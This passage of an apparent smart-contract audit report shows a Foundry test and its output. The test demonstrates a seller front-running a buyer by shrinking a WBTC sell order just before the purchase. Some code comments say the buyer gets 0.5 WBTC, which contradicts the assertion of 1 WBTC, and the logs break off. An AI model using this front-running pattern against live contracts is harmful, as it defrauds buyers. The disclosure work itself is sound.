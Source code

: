 ### Proof of Concept
Add the following test, then run `forge test -vv --match-test test_frontRunBySeller`
```solidity
function test_frontRunBySeller() public {
    // alice creates sell order for wbtc
    vm.startPrank(alice);
    wbtc.approve(address(book), 2e8);
    uint256 aliceId = book.createSellOrder(address(wbtc), 2e8, 180_000e6, 2 days);
    vm.stopPrank();

    assert(aliceId == 1);
    assert(wbtc.balanceOf(alice) == 0);
    assert(wbtc.balanceOf(address(book)) == 2e8);

    uint256 expectedAmountToSell = book.getOrder(aliceId).amountToSell;
    string memory aliceOrderDetails = book.getOrderDetailsString(aliceId);
    console2.log("Alice creates an order:\n", aliceOrderDetails);

    // simulate mempool timing
    vm.prank(dan);
    console2.log("\nDan tries to buy Alice's order\n");
    usdc.approve(address(book), 200_000e6);

    // Seller front-runs to change amountToSell from 2 WBTC → 1 WBTC
    vm.prank(alice);
    book.amendSellOrder(aliceId, 1e8, 180_000e6, 2 days);

    uint256 actualAmountToSell = book.getOrder(aliceId).amountToSell;
    aliceOrderDetails = book.getOrderDetailsString(aliceId);
    console2.log("Alice amends her order:\n", aliceOrderDetails);

    // Now the victim (i.e. dan) buys the order
    vm.prank(dan);
    book.buyOrder(aliceId);

    console2.log(
        "\nDan expects %d WBTC received but actually get %d WBTC",
        expectedAmountToSell,
        actualAmountToSell
    );
    // dan expects to receives 2 WBTC but gets only 0.5 WBTC
    assertEq(wbtc.balanceOf(dan), 1e8);  // Expected: 0.5 WBTC
}
```
PoC Results:
```
forge test -vv --match-test test_frontRunBySeller
[⠊] Compiling...
[⠊] Compiling 1 files with Solc 0.8.26
[⠒] Solc 0.8.26 finished in 995.05ms
Compiler run successful!

Ran 1 test for test/TestOrderBook.t.sol:TestOrderBook
[PASS] test_frontRunBySeller() (gas: 421604)
Logs:
  Alice creates an order:
 Order ID: 1
Seller: 0xaf6db259343d020e372f4ab69cad536aaf79d0ac
Selling: 200000000 wBTC
Asking Price: 180000000000 USDC
Deadline Timestamp: 172801
Status: Active
  
```